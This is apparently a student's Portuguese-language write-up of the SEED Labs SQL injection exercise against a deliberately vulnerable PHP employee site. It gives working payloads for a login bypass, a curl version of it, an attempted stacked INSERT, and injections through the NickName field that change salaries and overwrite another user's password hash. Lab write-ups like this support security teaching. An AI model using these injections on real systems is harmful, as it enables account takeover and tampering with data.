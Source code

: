 # Seed Labs 8 - SQL Injection

## Task 1

Nesta primeira task, apenas corremos a linha para abrir o terminal do mysql:

```bash
mysql -u root -pdees
```
Agora dentro, corremos as seguintes linhas:
```sql
use sqlab_users;
show tables;
```
![](../pictures/SQL1.png)

## Task 2

### Parte 1

Para entrar na conta do administrador, precisavamos de dar o input do seu username ( neste caso 'admin') e escapar à verificaçao da password. Para isso, introduzimos no campo do username o seguinte:

```sql
admin' #
```
![](../pictures/SQL2.png)

A aspa a seguir a "admin" fecha o campo do username e o "#" comenta o resto do codigo, nao executando assim a verificaçao da password.

![](../pictures/SQL3.png)

Como se pode ver, entramos na conta do admin com sucesso!

### Parte 2

Para agora fazer o mesmo mas atravez do terminal, corremos o seguinte comando:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Isto essencialmente vai buscar a pagina "http://www.seed-server.com/unsafe_home.php" passando como parametros 
o que inserimos na Parte anterior (sendo ' = %27 e # = %23).

![](../pictures/SQL4.png)

### Parte 3 

Temos agora que tentar correr duas queries. Para isso, tentamos realizar a seguinte injeçao:

```sql
admin'; NSERT INTO `credential` VALUES (7,'Ruben','10000',20000,'9/20','10211002','','','','','fdbe918bdae83000aa54747fc95fe0470fff4976'); #
```
Infelizmente(ou felizmente) o php tem uma proteçao contra a execuçao de varias queries. Para que isso 
fosse possivel teria que se usar o comando sql "multi_query" em vez de "query".

## Task 3

Nesta task, acedemos à conta de Alice, de uma forma semalhante a como acedemos a admin:

```sql
Alice' #
```

![](../pictures/SQL5.png)

### Parte 1

Para editar o salario de Alice, fomos à pagina de Edit Profile e injetamos o seguinte no campo de NickName:

```sql
Alice', salary='99999' WHERE Name='Alice'#
```

Isto resultou na seguinte alteraçao ao perfil de Alice

![](../pictures/SQL6.png)

### Parte 2

Para editar o salario de Boby, fez-se algo bastante semalhante. Ainda na pagina de Edit Profile de Alice,
 injetamos o seguinte no campo de NickName:

```sql
Boby', salary='1' WHERE Name='Boby'#
```

Saímos da conta de Alice e acedemos à do admin para ver o resultado:

![](../pictures/SQL7.png)

Como podemos ver, o salario de Boby é agora 1!

### Parte 3

Para alterar a password de Boby para uma que seja do nosso conhecimento, foi primeiro preciso 
descobrir o metodo de encriptaçao de password. No ficheiro unsafe_edit_backend.php percebe-se que se
utiliza Sha1.

Fomos entao a um website ver o resultado da encriptaçao de "batata":

![](../pictures/SQL8.png)

Tendo agora a versao encriptada de "batata", basta substituir a password de Boby por ela. Na pagina de Alice, realizamos a 
seguinte injeçao:

```sql
Boby', Password='8467b174e821587c4a0545fd8e57204a398c66d4' WHERE Name='Boby'#
```

Voltando agora à pagina de Login, inserimos "Boby" e "batata" nos campos de Username e Password, respetivamente.

![](../pictures/SQL9.png)

Sucesso! Entramos na conta de Boby!

